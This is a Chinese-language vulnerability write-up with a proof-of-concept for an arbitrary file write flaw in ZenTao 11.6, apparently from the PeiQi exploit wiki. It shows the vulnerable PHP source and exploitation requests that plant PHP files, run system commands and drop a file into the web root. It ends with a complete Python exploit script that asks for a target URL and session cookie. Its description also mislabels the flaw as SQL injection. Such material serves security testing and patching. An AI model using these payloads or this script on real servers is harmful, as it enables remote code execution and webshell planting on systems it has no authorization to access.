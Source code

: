 # 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

# 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 漏洞影响

```
禅道 11.6
```

## 环境搭建

这里使用docker环境搭建

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 [**http://xxx.xxx.xxx.xxx:8084**](http://xxx.xxx.xxx.xxx:8084) 按步骤安装即可

![](/images/202202162304907.png)

## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```

**$filePath参数和$fileContent参数** 我们是可控的

调用方法往 **/tmp**写入一个**phpinfo()**

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```

![](/images/202202162305743.png)

![](/images/202202162305838.png)

在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```

![](/images/202202162305119.png)

也可以写入网站目录中

先获取地址

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```

访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)

![](/images/202202162305332.png)



得到目录为 **/app/zentaopma/www**

请求改为

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

再去访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)则会再网站目录下生成 xxx.php 文件



![](/images/202202162305334.png)

![](/images/202202162305426.png)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                        \033[0m')
    print('+  \033[34mVersion: zentao version = 11.6                                    \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    data = {"fileContent":"<?php phpinfo();?>"}
    write_url = target_url + "/api-getModel-editor-save-filePath=/tmp/test"
    try:
        response = requests.post(url=write_url, data=data, headers=headers, timeout=10)
        print("\033[32m[o] 尝试写入php文件... \033[0m")
    except:
        print("\033[31m[x] 写入php文件失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    vuln_url = target_url + "/api-getModel-api-getMethod-filePath=/tmp/test/1"
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=10)
        if "System" in response.text:
            print("\033[32m[o] 成功写入文件，存在漏洞, 访问 {}/api-getModel-api-getMethod-filePath=/tmp/test/1/ 查看 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 读取php文件失败 \033[0m")
    except:
        print("\033[31m[x] 读取php文件失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, zentaosid)
    POC_3(target_url, zentaosid)
```

![](/images/202202162305586.png)

